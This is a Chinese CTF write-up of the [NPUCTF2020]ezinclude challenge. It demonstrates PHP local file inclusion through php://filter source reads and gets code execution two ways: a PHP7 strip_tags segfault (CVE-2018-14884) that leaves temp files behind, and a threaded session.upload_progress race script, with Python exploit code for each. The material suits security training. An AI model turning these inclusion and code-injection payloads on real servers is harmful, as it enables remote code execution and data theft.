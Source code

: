 ```yaml
---
title: '[NPUCTF2020]ezinclude'
date: 2024-06-16 14:09:59
tags: php特性
categories: 刷题笔记
---
```


### [NPUCTF2020]ezinclude（php7 segment fault特性）

我们打开源码，发现页面有个提示

![image-20240616141533744](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406161415869.png)

```
md5($secret.$name)===$pass
```

我们输入url

```
/?name=1
```

变化name的值，发现cookies的hash在不断变化，说明hash的值跟name的取值有关，但又不完全是name的值，说明cookie的hash很有可能就是md5的值

<!--more-->

我们传入

```
?name=1&pass=576322dd496b99d07b5b0f7fa7934a25
```

但传入后跳转到404.html页面，跳转之前好像还有一个页面一闪而过，我们抓包看看

![image-20240616143019249](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406161430438.png)

我们发现页面跳转到了flflflflag.php，我们再次进行抓包

![image-20240616143114151](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406161431336.png)

发现了一串代码，可知我们需要用到文件包含

```
?file=php://filter/convert.base64-encode/resource=flflflflag.php
```

![image-20240616143233149](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406161432334.png)

我们得到了一串base64加密的字符串，进行解密看看

```
<html>
<head>
<script language="javascript" type="text/javascript">
           window.location.href="404.html";
</script>
<title>this_is_not_fl4g_and_出题人_wants_girlfriend</title>
</head>
<>
<body>
<?php
$file=$_GET['file'];
if(preg_match('/data|input|zip/is',$file)){
	die('nonono');
}
@include($file);
echo 'include($_GET["file"])';
?>
</body>
</html>

```

嗯，多了一个不知道有啥用的代码

我们进行目录扫描

```
python dirsearch.py -u http://b75582fa-5dab-4f76-8734-1c591cb88d31.node4.buuoj.cn:81/ -e * --timeout=2 -t 1 -x 400,403,404,500,503,429 -w db/dict_mode_dict.txt

```

扫到了dir.php，我们抓包利用文件包含查看源码

```
<?php
var_dump(scandir('/tmp'));
?>

```

dir.php能打印临时文件夹里的内容，因此我们要想办法把文件存到tmp文件夹中。



#### 方法一 利用php7 segment fault特性（CVE-2018-14884）

php代码中使用php://filter的 strip_tags 过滤器, 可以让 php 执行的时候直接出现 Segment Fault , 这样 php 的垃圾回收机制就不会在继续执行 , 导致 POST 的文件会保存在系统的缓存目录下不会被清除而不像phpinfo那样上传的文件很快就会被删除，这样的情况下我们只需要知道其文件名就可以包含我们的恶意代码。

使用php://filter/string.strip_tags导致php崩溃清空堆栈重启，如果在同时上传了一个文件，那么这个tmp file就会一直留在tmp目录，知道文件名就可以getshell。这个崩溃原因是存在一处空指针引用。向PHP发送含有文件区块的数据包时，让PHP异常崩溃退出，POST的临时文件就会被保留，临时文件会被保存在upload_tmp_dir所指定的目录下，默认为tmp文件夹。

该方法仅适用于以下php7版本，php5并不存在该崩溃。

利用条件：

- php7.0.0-7.1.2可以利用， 7.1.2x版本的已被修复
- php7.1.3-7.2.1可以利用， 7.2.1x版本的已被修复
- php7.2.2-7.2.8可以利用， 7.2.9一直到7.3到现在的版本已被修复
- 可以获取文件名
- 源代码将GET参数进行文件包含

[[NPUCTF2020\]ezinclude（PHP临时文件包含） - 「配枪朱丽叶。」](https://www.shawroot.cc/1159.html)

[PHP LFI 利用临时文件 Getshell 姿势](https://www.codenong.com/cs106498971/)

可以利用url

```
/flflflflag.php?file=php://filter/string.strip_tags/resource=/etc/passwd

```

现在开始利用上面的url，编写python脚本，直接通过上传的文件名访问phpinfo()：

```
import requests
from io import BytesIO
payload = "<?php phpinfo()?>"
file_data = { 'file': BytesIO(payload.encode()) }
url = "http://b75582fa-5dab-4f76-8734-1c591cb88d31.node4.buuoj.cn:81/flflflflag.php?file=php://filter/string.strip_tags/resource=/etc/passwd"
r = requests.post(url=url, files=file_data, allow_redirects=False)

```

运行脚本后访问/dir.php，得到tmp目录下刚刚我们上传的文件路径：/tmp/phpqMe1db 

然后抓包发送请求

![image-20240616150731738](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406161507841.png)

得到flag

[LFItoRCE利用总结](https://bbs.zkaq.cn/t/3639.html)



#### 方法二 利用 [session](https://so.csdn.net/so/search?q=session&spm=1001.2101.3001.7020).upload_progress 进行 session 文件包含

原理：利用session.upload_progress上传一个临时文件，该文件里面有我们上传的恶意代码，然后包含它，从而执行里面的代码。因为该文件内容清空很快，所以需要不停的上传和包含，在清空之前包含该文件。

session中一部分数据(session.upload_progress.name)是用户自己可以控制的。那么我们只要上传文件的时候，在Cookie中设置PHPSESSID=yym68686（默认情况下session.use_strict_mode=0用户可以自定义Session ID），同时POST一个恶意的字段PHP_SESSION_UPLOAD_PROGRESS ，（PHP_SESSION_UPLOAD_PROGRESS在session.upload_progress.name中定义），只要上传包里带上这个键，PHP就会自动启用Session，同时，我们在Cookie中设置了PHPSESSID=yym68686，所以Session文件将会自动创建。

因为session.upload_progress.cleanup = on这个默认选项会有限制，当文件上传结束后，php将会立即清空对应session文件中的内容，这就导致我们在包含该session的时候相当于在包含一个空文件，没有包含我们传入的恶意代码。不过，我们只需要条件竞争，赶在文件被清除前利用即可。

编写脚本：

```
import io
import re
import sys
import requests
import threading

host = 'http://003ae9af-2700-4283-99e8-da47b33de836.node4.buuoj.cn:81/flflflflag.php'
sessid = 'yym68686'

def POST(session):
    while True:
        f = io.BytesIO(b'a' * 1024 * 50)
        session.post(
            host,
            data={"PHP_SESSION_UPLOAD_PROGRESS":"<?php phpinfo();?>"},
            files={"file":('a.txt', f)},
            cookies={'PHPSESSID':sessid}
        )

def READ(session):
    while True:
        response = session.get(f'{host}?file=/tmp/sess_{sessid}')
        if 'flag{' not in response.text:
            print('\rWaiting...', end="")
        else:
            print("\r" + re.search(r'flag{(.*?)}', response.text).group(0))
            sys.exit(0)

with requests.session() as session:
    t1 = threading.Thread(target=POST, args=(session, ))
    t1.daemon = True
    t1.start()
    READ(session)

```

这个脚本的前提是必须知道flag在phpinfo里面，所以局限性比较大。把<?php phpinfo();?>换成<?php system('cat *');?>也可以，输出的依然是phpinfo()的内容。

[[NPUCTF2020\]ezinclude](https://www.icode9.com/content-4-886902.html)

[利用session.upload_progress进行文件包含和反序列化渗透 - FreeBuf网络安全行业门户](https://www.freebuf.com/vuls/202819.html)

[利用session.upload_progress进行文件包含_天问_Herbert555的博客-CSDN博客](https://blog.csdn.net/qq_44657899/article/details/109281343)

[LFI 绕过 Session 包含限制 Getshell](https://www.anquanke.com/post/id/201177#h3-17)
